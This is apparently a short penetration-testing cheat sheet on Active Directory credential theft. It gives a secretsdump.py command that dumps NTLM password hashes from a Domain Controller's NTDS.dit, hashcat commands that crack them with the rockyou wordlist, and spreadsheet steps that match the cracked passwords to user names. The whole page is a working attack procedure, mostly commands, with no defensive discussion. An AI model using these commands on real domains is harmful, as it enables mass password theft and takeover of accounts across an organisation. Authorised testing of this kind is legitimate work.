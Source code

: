 NTDS.dit - DB used to store AD data including User/Group Info & Password Hashes

Dumping NTDS.dit (run the command against the Domain Controller with a Domain Admin's details):
```bash
secretsdump.py [DOMAIN]/[USERNAME]:'[PASSWORD]'@[IP_ADDRESS] -just-dc-ntlm
```
Grab the NT to crack:

![image](https://github.com/user-attachments/assets/07b7e977-4a39-43a0-9c59-9242457cefc9)

# Crack all NTDS.dit NT hashes
* Copy the full NTDS.dit and paste it all into excel.
* In excel, goto Data > Text to Columns > Delimited > Next > Delimiters - Other: ":" > Next > Finish.
* This will split the NTDS.dit into the following columns: Users, rID, LM hash, NT hash
* Copy all the NT hashes.
* Create a file with all the hashes pasted.
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt --show
```
* Copy the output and paste it on a new excel sheet. 
* Highlight the cracked passwords column, then select Home > Numbers > Dropdown menu that says "General", and change it to "Text".
* Go back to the first sheet (that stores the full NTDS.dit) and select the first box in the next column.
* Type into the box "=vlookup([CLICK A HASH VALUE], [CLICK BOTH COLUMNS ON THE OTHER EXCEL SHEET], 2, false" 
* Double click the corner of the vlookup box so that it looks up all the hashes.
